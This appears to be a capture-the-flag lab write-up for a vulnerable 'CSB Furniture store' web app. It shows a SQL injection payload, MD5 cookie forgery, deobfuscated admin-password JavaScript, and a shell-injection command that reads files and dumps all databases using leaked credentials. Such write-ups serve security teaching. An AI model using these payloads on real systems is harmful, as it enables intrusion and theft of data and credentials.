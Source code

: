 # CSB Furniture store

## Product List Token
Investigate the products: Find a SQL injection attack that makes the site display all of the products it has in the database. One of the products that is not normally displayed includes a token, submit this token to the token submission website.

### Methodology
We first need to inspect the form. Submitting the ' character alone shows that the database is mySQL from the error message. Now we test the search function using some common syntax such as "A t" and "A_TA___" and find out that the SQL statement in use is most likely `LIKE BINARY`, since the search is case insensitive and the operators behave as expected. 

Most likely, the query looks like
```
SELECT *
FROM products
WHERE name LIKE BINARY pattern;
```

So we naively try the query: 

```
' UNION SELECT * FROM products #
```

Which gets us the solution. We see the flag on the next page item called My Little Pony.


## Hidden Market Token

### Methodology
Using burp and attempting to sign in, we see that the sign in is done with a simple POST request, sending the credentials in cleartext. There is also a PHP session ID as a cookie.

After logging in to an account, we see that there is an extra cookie. In my case it was 
`040ec1ee950ffc53291f6df0ffc30325=cfcd208495d565ef66e7dff9f98764da`. Looks like a key-value pair, and since they are both 32 bit hex strings, it looks like they might both be MD5 values. (I tried a base64 decoder and only got garbled binary).

I went on a long fucking goose chase to try and use john to reverse the md5 hash, but there is a nice lookup tool on google that revealed the reverse of the two hashes:

040ec1ee950ffc53291f6df0ffc30325 <==> dealer
cfcd208495d565ef66e7dff9f98764da <==> 0

Therefore, we can get the solution by using Burp to replace the second hash string to the md5 hash of '1', which is c4ca4238a0b923820dcc509a6f75849b.

The token is found immediate on the presence of this cookie.

## Admin Page Password Hunt

### Methodology
Visiting the admin page with our spoofed cookie, it prompts us for a password. The page source contains obfuscated code, so lets try seeing what it does. 

```js
var _0x9efc=["\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x73\x72\x63","\x2F\x6A\x73\x2F\x6D\x64\x35\x2E\x6A\x73","\x6F\x6E\x6C\x6F\x61\x64","\x2F\x6A\x73\x2F\x65\x6E\x63\x2D\x62\x61\x73\x65\x36\x34\x2D\x6D\x69\x6E\x2E\x6A\x73","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x62\x6F\x64\x79","\x73\x75\x62\x6D\x69\x74","\x76\x61\x6C","\x23\x70\x61\x73\x73\x77\x6F\x72\x64","\x65\x6E\x63","\x65\x32\x30\x37\x37\x64\x38\x37\x38\x33\x32\x37\x30\x32\x36\x63\x33\x63\x63\x34\x65\x33\x35\x61\x36\x65\x37\x30\x33\x37\x64\x37","\x63\x44\x52\x79\x4E\x47\x30\x7A\x4E\x7A\x4E\x79","\x70\x61\x72\x73\x65","\x42\x61\x73\x65\x36\x34","\x6C\x6F\x63\x61\x74\x69\x6F\x6E","\x2F\x61\x64\x6D\x69\x6E\x2F\x75\x73\x65\x72\x73\x2E\x70\x68\x70\x3F","\x3D","\x6F\x6E","\x23\x6C\x6F\x67\x69\x6E","\x72\x65\x61\x64\x79"];$(document)[_0x9efc[21]](function (){s1=document[_0x9efc[1]](_0x9efc[0]);s1[_0x9efc[2]]=_0x9efc[3];s1[_0x9efc[4]]=function (){s2=document[_0x9efc[1]](_0x9efc[0]);s2[_0x9efc[2]]=_0x9efc[5];document[_0x9efc[7]][_0x9efc[6]](s2);} ;document[_0x9efc[7]][_0x9efc[6]](s1);$(_0x9efc[20])[_0x9efc[19]](_0x9efc[8],function (){v=$(_0x9efc[10])[_0x9efc[9]]();h1=CryptoJS.MD5(v).toString(CryptoJS[_0x9efc[11]].Hex);if(h1==_0x9efc[12]){p=CryptoJS[_0x9efc[11]][_0x9efc[15]][_0x9efc[14]](_0x9efc[13]).toString(CryptoJS[_0x9efc[11]].Latin1);h2=CryptoJS.MD5(v+h1).toString(CryptoJS[_0x9efc[11]].Hex);document[_0x9efc[16]]=_0x9efc[17]+p+_0x9efc[18]+h2;} ;return false;} );} );
```

Running it first through a hex deobfuscator gets us something a bit more readable:

```js
var _0x9efc=["script","createElement","src","/js/md5.js","onload","/js/enc-base64-min.js","appendChild","body","submit","val","#password","enc","e2077d878327026c3cc4e35a6e7037d7","cDRyNG0zNzNy","parse","Base64","location","/admin/users.php?","=","on","#login","ready"];$(document)[_0x9efc[21]](function (){s1=document[_0x9efc[1]](_0x9efc[0]);s1[_0x9efc[2]]=_0x9efc[3];s1[_0x9efc[4]]=function (){s2=document[_0x9efc[1]](_0x9efc[0]);s2[_0x9efc[2]]=_0x9efc[5];document[_0x9efc[7]][_0x9efc[6]](s2);} ;document[_0x9efc[7]][_0x9efc[6]](s1);$(_0x9efc[20])[_0x9efc[19]](_0x9efc[8],function (){v=$(_0x9efc[10])[_0x9efc[9]]();h1=CryptoJS.MD5(v).toString(CryptoJS[_0x9efc[11]].Hex);if(h1==_0x9efc[12]){p=CryptoJS[_0x9efc[11]][_0x9efc[15]][_0x9efc[14]](_0x9efc[13]).toString(CryptoJS[_0x9efc[11]].Latin1);h2=CryptoJS.MD5(v+h1).toString(CryptoJS[_0x9efc[11]].Hex);document[_0x9efc[16]]=_0x9efc[17]+p+_0x9efc[18]+h2;} ;return false;} );} );
```

The wonderful folks behind the [JS beautify project](https://beautifier.io) solve our problem even further:

```js
$(document)['ready'](function() {
    s1 = document['createElement']('script');
    s1['src'] = '/js/md5.js';
    s1['onload'] = function() {
        s2 = document['createElement']('script');
        s2['src'] = '/js/enc-base64-min.js';
        document['body']['appendChild'](s2);
    };
    document['body']['appendChild'](s1);
    $('#login')['on']('submit', function() {
        v = $('#password')['val']();
        h1 = CryptoJS.MD5(v).toString(CryptoJS['enc'].Hex);
        if (h1 == 'e2077d878327026c3cc4e35a6e7037d7') {
            p = CryptoJS['enc']['Base64']['parse']('cDRyNG0zNzNy').toString(CryptoJS['enc'].Latin1);
            h2 = CryptoJS.MD5(v + h1).toString(CryptoJS['enc'].Hex);
            document['location'] = '/admin/users.php?' + p + '=' + h2;
        };
        return false;
    });
});
```

The code has the md5 has of the password in plaintext in the if statement, so a reverse MD5 lookup on the string `e2077d878327026c3cc4e35a6e7037d7` reveals that the password is `monkey95`. The token is now on the admin panel in plaintext.

## Stored XSS Vulnerability
The add products page is the clear answer here: the name and description fields are properly escaped, but the price field is not, so putting the script in there will result in a successful exploit.

## Shell Injection Vulnerability
This is in the file uploads area in the admin panel. It looks like it is doing a simple `ls`, so we simply try `; cat /webtoken` and it works.

## Database Access Token
I got lazy here: The key is to use Burp and some googling to create and spoof a polyglot as a picture with .jpg extension. However, since there was a convenient shell injection, I just used the `cat` command to spit out the source code.

```php
<?php
  // create a connection the database engine
  $db = mysql_connect("127.0.0.1", "csecvm", "H93AtG6akq");
  if(!$db)
    die("Couldn't connect to the MySQL server.");

  // change database
  $use = mysql_select_db("csecvm", $db);
  if(!$use)
    die("Couldn't select database.");
?>
```

From here we can inject further shell code to do:
`; mysqldump --user=csecvm --password=H93AtG6akq --all-databases | grep token`

And the token is right there.